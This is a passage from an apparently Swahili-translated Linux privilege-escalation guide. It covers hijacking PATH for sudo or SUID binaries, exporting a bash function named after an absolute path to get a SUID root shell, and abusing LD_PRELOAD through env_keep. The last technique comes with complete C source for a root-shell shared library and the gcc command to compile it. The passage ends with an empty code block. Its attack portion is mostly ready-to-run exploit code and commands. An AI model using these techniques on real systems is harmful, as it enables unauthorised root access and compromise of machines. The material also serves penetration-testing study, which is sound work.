 ### Sudo command/SUID binary without command path

Ikiwa **sudo permission** imetolewa kwa amri moja **without specifying the path**: _hacker10 ALL= (root) less_ unaweza ku-exploit kwa kubadilisha PATH variable
```bash
export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
```
Mbinu hii pia inaweza kutumika ikiwa binary ya **suid** inatekeleza amri nyingine bila kubainisha njia yake (daima angalia kwa** _**strings**_ **maudhui ya binary ya SUID isiyo ya kawaida)**.

[Payload examples to execute.](payloads-to-execute.md)

### SUID binary yenye njia ya amri

Ikiwa binary ya **suid** **inatekeleza amri nyingine huku ikibainisha njia**, basi, unaweza kujaribu **ku-export function** iliyoitwa kama amri ambayo faili ya suid inaiita.

Kwa mfano, ikiwa binary ya suid inaita _**/usr/sbin/service apache2 start**_ lazima ujaribu kuunda function na kui-export:
```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```
Kisha, unapomuita suid binary, function hii itaendeshwa

### LD_PRELOAD & **LD_LIBRARY_PATH**

Kigezo cha mazingira **LD_PRELOAD** kinatumika kutaja moja au zaidi ya shared libraries (.so files) zinapakiwa na loader kabla ya nyingine zote, ikiwemo maktaba ya kawaida ya C (`libc.so`). Mchakato huu unajulikana kama preloading a library.

Hata hivyo, ili kudumisha usalama wa mfumo na kuzuia kipengele hiki kutumika vibaya, hasa kwa **suid/sgid** executables, mfumo unatekeleza masharti fulani:

- Loader haitazingatia **LD_PRELOAD** kwa executables ambapo real user ID (_ruid_) haifananishi na effective user ID (_euid_).
- Kwa executables zenye suid/sgid, maktaba tu zilizoko katika njia za kawaida ambazo pia ni suid/sgid ndizo zinazopreloaded.

Privilege escalation inaweza kutokea ikiwa una uwezo wa kuendesha amri kwa kutumia `sudo` na matokeo ya `sudo -l` yanajumuisha taarifa **env_keep+=LD_PRELOAD**. Mpangilio huu unaruhusu kigezo cha mazingira **LD_PRELOAD** kubaki na kutambuliwa hata wakati amri zinaendeshwa kwa `sudo`, na hivyo kupelekea utekelezwaji wa arbitrary code kwa ruhusa zilizoinuliwa.
```
Defaults        env_keep += LD_PRELOAD
```
Hifadhi kama **/tmp/pe.c**
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Kisha **compile** kwa kutumia:
```bash
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```
Hatimaye, **kupandisha ruhusa** kwa kuendesha
```bash
```